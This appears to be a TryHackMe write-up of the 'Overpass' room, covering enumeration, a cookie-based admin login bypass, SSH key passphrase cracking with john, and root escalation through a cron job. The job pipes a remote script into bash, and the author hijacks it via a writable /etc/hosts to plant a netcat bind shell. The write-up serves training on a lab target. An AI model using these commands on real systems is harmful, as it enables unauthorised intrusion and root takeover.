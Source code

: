 +++
title = "Overpass - TryHackMe Writup"
description = "Breaking the password manager."
date = 2024-10-23
slug = "overpass"
image = "overpass.png"

[taxonomies]
categories = ["TryHackMe", "Writups"]
tags = ["overpass", "tryhackme", "bind shell", "linpeas"]
+++

<div style="display: flex; align-items: center;">
  <div>
    <img src="overpass.png" alt="overpass" width="100"/>
  </div>
  <div style="margin-left: 10px;">
    <i>What happens when some broke CompSci students make a password manager?</i>
  </div>
</div>


## 1. Enumeration
Target IP address: 10.10.4.48

Two ports are open.

<pre>
❯ nmap -sV 10.10.4.48 -v

PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open     http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
10628/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</pre>

Okay, now starting by searching directories using gobuster as

<pre>
❯ gobuster dir -u http://10.10.4.48/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.4.48/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 0] [--> img/]
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]
/admin                (Status: 301) [Size: 42] [--> /admin/]
/css                  (Status: 301) [Size: 0] [--> css/]
......
</pre>

We got admin as interesting and there is a login page.
![alt text](admin_login_page.png)

There is client side login logic found in `login.js`, the main script is 

<pre>
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
</pre>

It seems that, if the value of `statusOrCookie` is `Incorrect Credentials`, then the error occurs, otherwise log on. Lets try to tweak the variable `statusOrCookie`. May be directly hampring this pariable is difficult as this is from backend side. Instead we can set the cookies, as shown in else block to any value.

## 2. Attacking


Lets try in console, by inspecting the page. Did this and refrest, I got logged in ant there I found RSA private key.

![alt text](setting_cookies.png)

The message found there is

<pre>
Welcome to the Overpass Administrator area
A secure password manager with support for Windows, Linux, MacOS and more
Since you keep forgetting your password, James, I've set up SSH keys for you.

If you forget the password for this, crack it yourself. I'm tired of fixing stuff for you.
Also, we really need to talk about this "Military Grade" encryption. - Paradox
</pre>

That means we need to crack this key to get ssh password. We can use `ssh2john`. It converts ssh key into password hash and can be cracked using john. 

`ssh2john rsa_private_key > password_hash`, here rsa_private_key contains the private key found in the admin page after login.

<pre>
❯ john --wordlist=/usr/share/wordlists/rockyou.txt password_hash
.........
Press 'q' or Ctrl-C to abort, almost any other key for status
jam****          (rsa_private_key)
Warning: Only 2 candidates left, minimum 8 needed for performance.
1g 0:00:00:06 DONE (2024-10-10 08:41) 0.1652g/s 2370Kp/s 2370Kc/s 2370KC/sa6_123..*7¡Vamos!
Session completed
</pre>


Now we have ssh password/passphrase for the user `james`

## 3. Capture the flag
Login via ssh and capture the user flag as

![alt text](user_flag_poc.png)

Here first, change the permission of the private key to `400` that means only the owner read the key. After that connect via ssh and provided passphrase to logged in, then found the `user.txt`

There is todo.txt is found, it is
<pre>
james@overpass-prod:~$ cat todo.txt 
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
</pre>

## 4. Privilege escalation
There is the mention of automated build script. Maybe this can be helpful, but we need to enumerate first.

I have downloaded `linpeas.sh` into my local machine, created http server using python as `python -m http.server` then download the script in target machine and ran there.

Importent finding can be `/etc/hosts` file is writable by every user including we. Also looking into cornjob

<pre>
james@overpass-prod:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
</pre>

There is a script running by root, everytime and hosted in overpass.thm domain. So we need to setup payload in such a way that while running this job, our payload will be downloaded and runned so that the victim will be connected to out machine, using bind shell.

For that need to setup server and path like this in my local device and need to add DNS record in /etc/hosts as shown below

`10.17.58.84 overpass.thm`

and the payload used in buildscript.sh is 

`mkfifo /tmp/f; nc -lvnp 4444 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

Here we go, got root flag too.

![alt text](root_flag_poc.png)

Happy Hacking !!
